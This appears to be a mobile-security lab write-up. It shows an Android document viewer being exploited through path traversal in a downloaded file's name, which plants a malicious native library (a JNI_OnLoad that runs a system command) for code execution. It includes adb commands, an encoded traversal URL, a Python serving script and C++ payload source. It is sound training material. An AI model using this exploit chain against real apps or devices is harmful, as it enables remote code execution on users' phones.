


The Challenge: https://www.mobilehackinglab.com/course/lab-document-viewer-rce

# Download the APK 
`$ adb connect 10.11.1.1:5001`
`$ adb shell pm list packages |grep document`
```
package:com.android.documentsui
package:com.mobilehackinglab.documentviewer
```
`$ adb shell pm path com.mobilehackinglab.documentviewer`
`$ adb pull /data/app/~~-kG0uZLuM0NVcdPTWtjDZw==/com.mobilehackinglab.documentviewer-c0GKTthgQqLKCLjzZzLWtA==/base.apk`

# Static Analysis
## Decompile
`$ apktool d base.apk`
```
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.7.0-dirty on base.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Baksmaling classes3.dex...
I: Baksmaling classes4.dex...
I: Baksmaling classes2.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
I: Copying META-INF/services directory
```

## Code Analysis
**Interesting config of intent-filter in AndroidManifest.xml:**
```xml
        <activity android:name="com.mobilehackinglab.documentviewer.MainActivity" android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
            <intent-filter>  
                <action android:name="android.intent.action.VIEW"/>  
                <category android:name="android.intent.category.DEFAULT"/>  
                <category android:name="android.intent.category.BROWSABLE"/>  
                <data android:scheme="file"/>  
                <data android:scheme="http"/>  
                <data android:scheme="https"/>  
                <data android:mimeType="application/pdf"/>  
            </intent-filter>  
        </activity>
```

Try to direct call an intent (`android.intent.action.VIEW`)
`$ adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://google.com"`
```
Starting: Intent { act=android.intent.action.VIEW dat=http://google.com/... cmp=com.mobilehackinglab.documentviewer/.MainActivity }
```
Nothing happened.

**Looking to the MainActivity, there's a method called as handleIntent()**
```java
    private final void handleIntent() {  
        Intent intent = getIntent();  
        String action = intent.getAction();  
        Uri data = intent.getData();  
        if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {  
            CopyUtil.Companion.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() { // from class: com.mobilehackinglab.documentviewer.MainActivity$handleIntent$1  
                /* JADX INFO: Access modifiers changed from: package-private */  
                {  
                    super(1);  
                }  
  
                @Override // kotlin.jvm.functions.Function1  
                public /* bridge */ /* synthetic */ Unit invoke(Uri uri) {  
                    invoke2(uri);  
                    return Unit.INSTANCE;  
                }  
  
                /* renamed from: invoke  reason: avoid collision after fix types in other method */  
                public final void invoke2(Uri uri) {  
                    MainActivity mainActivity = MainActivity.this;  
                    Intrinsics.checkNotNull(uri);  
                    mainActivity.renderPdf(uri);  
                }  
            }));  
        }  
    }
```

That script said "**the app tries to get the uri and sends it to copyFileFromUri(), then the uri is rendered in renderPdf()**".

```java
  
        public final MutableLiveData<Uri> copyFileFromUri(Uri uri) {  
            Intrinsics.checkNotNullParameter(uri, "uri");  
            URL url = new URL(uri.toString());  
            File file = CopyUtil.DOWNLOADS_DIRECTORY;  
            String lastPathSegment = uri.getLastPathSegment();  
            if (lastPathSegment == null) {  
                lastPathSegment = "download.pdf";  
            }  
            File outFile = new File(file, lastPathSegment);  
            MutableLiveData liveData = new MutableLiveData();  
            BuildersKt__Builders_commonKt.launch$default(GlobalScope.INSTANCE, Dispatchers.getIO(), null, new CopyUtil$Companion$copyFileFromUri$1(outFile, url, liveData, null), 2, null);  
            return liveData;  
        }  
    }  
  
    static {  
        File externalStoragePublicDirectory = Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS);  
        Intrinsics.checkNotNullExpressionValue(externalStoragePublicDirectory, "getExternalStoragePublicDirectory(...)");  
        DOWNLOADS_DIRECTORY = externalStoragePublicDirectory;  
    }
```
The `copyFileFromUri()` itself will copy the data that loaded via url and save it to the storage `Download` folder. 

## Testing the Document Viewer APK
Create a pdf file with python:
```python
from reportlab.lib.pagesizes import letter
from reportlab.pdfgen import canvas

def create_pdf(file_name):

    # Create a canvas object
    c = canvas.Canvas(file_name, pagesize=letter)

    # Draw text on the PDF
    c.drawString(100, 750, "Hello, this is a PDF created using Python!")

    # Save the PDF
    c.save()

    print(f"PDF created successfully: {file_name}")


# Call the function to create the PDF
create_pdf("example.pdf")
```

`$ python createPDF.py` 
```
PDF created successfully: example.pdf
```

Create a http listener in the same folder with the `example.pdf`
`$ python3 -m http.server 80`

### Install the APK in the Local Android
Then try to download the `example.pdf` to the Local Android:
`$ adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://192.168.56.102/example.pdf"`




# Pre-Exploitation
**Looking an interesting method that loaded in the the MainActivity**
```java
    private final native void initProFeatures();  
  
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        ActivityMainBinding inflate = ActivityMainBinding.inflate(getLayoutInflater());  
        Intrinsics.checkNotNullExpressionValue(inflate, "inflate(...)");  
        this.binding = inflate;  
        if (inflate == null) {  
            Intrinsics.throwUninitializedPropertyAccessException("binding");  
            inflate = null;  
        }  
        setContentView(inflate.getRoot());  
        BuildersKt.launch$default(GlobalScope.INSTANCE, null, null, new MainActivity$onCreate$1(this, null), 3, null);  
        setLoadButtonListener();  
        handleIntent();  
        loadProLibrary();  
        if (this.proFeaturesEnabled) {  
            initProFeatures();  
        }  
    }
```
From the script above, it said "**the loadProLibary() will loaded after the handleIntent()**".

```java
  
    private final void loadProLibrary() {  
        try {  
            String abi = Build.SUPPORTED_ABIS[0];  
            File libraryFolder = new File(getApplicationContext().getFilesDir(), "native-libraries/" + abi);  
            File libraryFile = new File(libraryFolder, "libdocviewer_pro.so");  
            System.load(libraryFile.getAbsolutePath());  
            this.proFeaturesEnabled = true;  
        } catch (UnsatisfiedLinkError e) {  
            Log.e(TAG, "Unable to load library with Pro version features! (You can ignore this error if you are using the Free version)", e);  
            this.proFeaturesEnabled = false;  
        }  
    }
```
It said that the `loadProLibrary()` tries to download `libdocviewer_pro.so` from `native-libraries/`. If the `libdocviewer_pro.so` exist, then the `proFeaturesEnabled` is `true`.

`$ adb shell "ls -al /data/data/com.mobilehackinglab.documentviewer/files/native-libraries/"`
```bash
ls: /data/data/com.mobilehackinglab.documentviewer/files/native-libraries/: No such file or directory
```
From the command above said that the `/native-libraries/` is empty.

## Abuse the `copyFileFromUri()`
The objective is trying to add a file to the `/native-libraries/` folder.
```java
        public final MutableLiveData<Uri> copyFileFromUri(Uri uri) {  
            Intrinsics.checkNotNullParameter(uri, "uri");  
            URL url = new URL(uri.toString());  
            File file = CopyUtil.DOWNLOADS_DIRECTORY;  
            String lastPathSegment = uri.getLastPathSegment();  
            if (lastPathSegment == null) {  
                lastPathSegment = "download.pdf";  
            }  
            File outFile = new File(file, lastPathSegment);  
            MutableLiveData liveData = new MutableLiveData();  
            BuildersKt__Builders_commonKt.launch$default(GlobalScope.INSTANCE, Dispatchers.getIO(), null, new CopyUtil$Companion$copyFileFromUri$1(outFile, url, liveData, null), 2, null);  
            return liveData;  
        }
```
Just wonder how if we can do a `path traversal` in the `lastPathSegment` variable.

### Create a Custom HTTP Response 
**Use python script to download PDF of any request from http port (http_server.py):**
```python
from http.server import BaseHTTPRequestHandler, HTTPServer  

class RequestHandler(BaseHTTPRequestHandler):
	def do_GET(self):
	# Specify the path to the PDF file
	pdf_path = "example.pdf"  

	try:
		# Open the PDF file in binary mode
		with open(pdf_path, "rb") as file:
			# Send response header
			self.send_response(200)
			self.send_header('Content-length', str(len(pdf_path)))
			self.end_headers()  

			# Write the content of the PDF file to the response
			self.wfile.write(file.read())  

	except FileNotFoundError:
		# If the file is not found, send a 404 response
		self.send_error(404, "File not found")  

def run(server_class=HTTPServer, handler_class=RequestHandler, port=8080):
	server_address = ('', port)
	httpd = server_class(server_address, handler_class)
	print(f"Server running on port {port}")
	httpd.serve_forever()
  
if __name__ == "__main__":
	run()
```

### Execute It
**Running the script**
`$ python3 http_server.py`
```
Server running on port 8080
```

**Then try to add a file to `/native-libraries/` folder**
`$ adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://192.168.56.102:8080/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fexample.pdf"`

**The result**
`$ adb shell "ls -al /data/data/com.mobilehackinglab.documentviewer/files/native-libraries"`
```
total 24
drwx------ 2 u0_a115 u0_a115 4096 2024-03-29 13:42 .
drwxrwx--x 3 u0_a115 u0_a115 4096 2024-03-29 13:42 ..
-rw------- 1 u0_a115 u0_a115 1443 2024-03-29 13:42 example.pdf
```
**Yes, It's works.**

# Exploitation
Create a malicious native library `libdocviewer_pro.so` for android.
Refer to: 
- https://www.youtube.com/watch?v=87uMi7L-3Hc
- https://docs.oracle.com/javase/8/docs/technotes/guides/jni/spec/invocation.html#JNJI_OnLoad
- https://www.youtube.com/watch?v=GQ7bwUOmVqk&list=PLwP4ObPL5GY_dBI_lSwBzKM4zxP4mWSqK&t=2447s

My `native-lib.cpp`:
```C++
#include <jni.h>  
#include <string>  
#include <unistd.h>    
  
JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {  
    if (fork() == 0) {  
        system("touch /data/data/com.mobilehackinglab.documentviewer/poc.txt");  
    }  
    JNIEnv* env;  
    if (vm->GetEnv(reinterpret_cast<void**>(&env), JNI_VERSION_1_6) != JNI_OK) {  
        return JNI_ERR;  
    }  
    return JNI_VERSION_1_6;  
}
```
Build the apk, decompile it with apktool, then copy the `app-debug/lib/x86_64/libdocviewer.so` to the HTTP server root directory with named as `libdocviewer_pro.so`

Change the `http_server.py` script become:
```
	pdf_path = "libdocviewer_pro.so"
```

**Running the script**
`$ python3 http_server.py`
```
Server running on port 8080
```


Then download the `libdocviewer_pro.so`
`$ adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://192.168.56.102:8080/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2F%2Fx86_x64%2Flibdocviewer_pro.so`
